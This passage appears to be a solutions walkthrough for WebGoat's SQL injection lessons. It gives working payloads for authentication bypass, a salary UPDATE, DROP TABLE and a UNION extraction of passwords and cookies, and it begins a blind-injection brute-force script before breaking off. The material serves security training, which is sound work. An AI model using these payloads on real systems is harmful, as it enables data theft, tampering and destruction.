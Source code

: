Employee Name: 

```
a
```

Authentication TAN: 

```sql
' OR '1'='1
```

### 12. Compromising Integrity with Query chaining

Employee Name: 

```
Smith
```

Authentication TAN: 

```sql
3SL99A'; UPDATE employees SET salary=999999 WHERE userid=37648-- -
```

### 13. Compromising Availability

Action contains: 

```sql
a'; DROP TABLE access_log-- -
```

## SQL Injection (advanced)

### 3. Try It! Pulling data from other tables

Name: 

```sql
' OR 1=1 UNION SELECT NULL,user_name,password,NULL,cookie,NULL,NULL FROM user_system_data-- -
```

Password: 

```
passW0rD
```

### 5.

```python
import requests
from binascii import unhexlify

sess = requests.Session()
URL = 'http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge'
COOKIE = {'JSESSIONID': 'rmQpe-rhd9Wt6wbgTSjMMipbN5sdQrh4PySCi7hn'}
CHARSET = '0123456789abcdef'

key = ''

found = False
while not found:
    found = True
    for c in CHARSET:
        print(c)
        payload = {
            'username_reg': f"tom' and substr(hex(password),{len(key) + 1},1)='{c}",
            'email_reg': 'a@gmail.com',
```